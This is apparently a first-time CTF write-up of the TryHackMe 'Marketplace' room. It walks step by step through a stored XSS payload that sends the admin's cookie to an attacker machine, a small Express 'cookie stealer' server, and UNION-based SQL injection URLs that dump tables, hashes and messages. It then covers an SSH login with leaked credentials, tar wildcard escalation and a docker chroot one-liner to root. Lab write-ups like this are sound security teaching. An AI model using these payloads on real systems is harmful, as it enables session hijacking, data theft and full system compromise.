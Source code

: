 # TryHackMe-MarketPlace

The sysadmin of The Marketplace,  Michael, has given you access to an internal server of his, so you can  pentest the marketplace platform he and his team has been working on. He  said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?

This is my first write-up. So all the suggestions are welcome.

## Enumeration:

First a simple nmap scan showed 3 open ports: 22,80 and 32768
![nmap scan](./images/nmap_scan.png)

from the scan we can see that port 32768 is also a web server based on node.js and on both port 80 and 32768 same website are hosted.

![home page](./images/home_page.png)

on checking out the items listed, we can see that we can report items to the admin and as given in room hint that we have to use report listing to admin somehow.

![dell image](./images/dell.png)

So, lets create a account and login. after reporting a post i recieved this msg.
![first report](./images/first_report.png)
so as we can see admin will check the reported listing. Let's try to create our own list.

![listing form](./images/listing_form.png)

now, as we see the form, file upload is disabled, so we can not use it for uploading any type of payload on the server. So, lets try xss.
so, at first let's try a simple script to check if we can use xss:\
```
<script>alert("xss is available")</script>
```
![test xss](./images/test_xss.png)
as we can see, xss can be used to steal admin cookies.
I read this null byte article regarding stealling cookie. So i created a new list with following script for xss:

```
<script type="text/javascript">
document.location='http://<attack-machine-ip>:8000/cookie?c='+document.cookie;
</script>
```
code for the node server that i used to get admin cookie is:
```
express = require('express')
const app = express();

app.get('/cookie', function(req, res){
    var cookie= req.query.c;
    console.log(cookie)
    res.send(cookie)
})

app.listen(8000, function () {
    console.log("cookie stealer server has started");
  });
```
Start the server and for going to report page check at what number your item is listed than go to __/report/<number_at_which_your_item_is_listed>__.
after reporting u will recieve the cookie of admin. One cookie will be yours and one cookie will be of admin:

![admin cookie](./images/admin_cookie.png)

replace your cookie with the cookie of admin by intercepting the request sent to server using burp suite.
![burp intercept](./images/burp_intercept.png)

after replacing the cookie with cookie of admin, we see a admin panel in nav bar:

![admin panel](./images/admin_panel.png)

we find our first flag on admin page:

![first flag](./images/first_flag.png)

now, lets try sqli injection on admin panel when we see user url goes like this “/admin?user=1”. I found a really helpfull article for [sql injection](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/).
when i sent a request with user id=1' , i recieved a sql error that means this page has sqli injection vulnerablity.

![sqli proof](./images/sqli_proof.png)

So, lets use this to enumerate database. To find out how many coulumns are there are in current table:
```
 http://10.10.130.112/admin?user=1+ORDER+BY+4
```
![number of column in current table](./images/user_column.png)

we can see that there are 4 columns. Lets find out which column is vuln.
```
http://10.10.130.112/admin?user=-1+union+select+1,2,3,4
```

![vuln column](./images/vuln_column.png)

so we can see that the column 1 is vulnerable. Lets find out the names of all the tables. I send this request to server and recieved the names of tables.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),2,3,4
```

![name of tables](./images/tables_name.png)

so name of all the tables is here lets enumerate users tables.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+PASSWORD+FROM+users+WHERE+ID=2),2,3,4
```
this gives us password hashes of user with id 2 who is michael similarly we can find hashes for jack whose id is 3.

![password hash](./images/hashes.png)

i tried cracking these hashes but latter realised this is a rabbit hole as according to thm rule, if a hashes is taking more than 5 min on thm attack machine than that's not the correct way.
So, let's enumerate other tables, lets enumerate messages table. lets enumerate column names inside messages table:

```
10.10.130.112/admin?user=-1+union+select+(SELECT+group_concat(COLUMN_NAME)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME=%27messages%27),2,3,4
```

![msg table](./images/message_table.png)

now let's read the messages.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+message_content+FROM+messages+WHERE+ID=1),2,3,4
```

![first msg](./images/first_msg.png)

and boom we have passwords for a user now lets check other
columns and see whom was it send to.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+user_to+FROM+messages+WHERE+ID=1),2,3,4
```

![usr with password](./images/user.png)

and the message was sent to user with id 3 and we know who that is
“jake”.
So, lets login to ssh through the creds we just got.
now we have ssh shell. and we have user flag.

![user flag](./images/user_flag.png)


## Privilage Escalation:

Let's check id and run sudo -l:

![id of jake](./images/id.png)

as we can see that we can run a script as michael without
passwords. So, now let's increase our privilage to michael.
We can use ‘**tar wildcard privilage escalation**’ method.
follow my steps for privilage escalation:

![moving to michael](./images/wildcard.png)

as u can see i created a script to get a reverse shell with privilages of michael.

![first img for michael](./images/michael.png)

now we have a shell with michael as a user. By running id we can see that michael is part of docker group.

![docker](./images/docker.png)

from docker to root, it's a easy path, run
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

and we have root access.

![root access](./images/root.png)

root flag is in /root/root.txt

we have root flag. hope u learnt something.

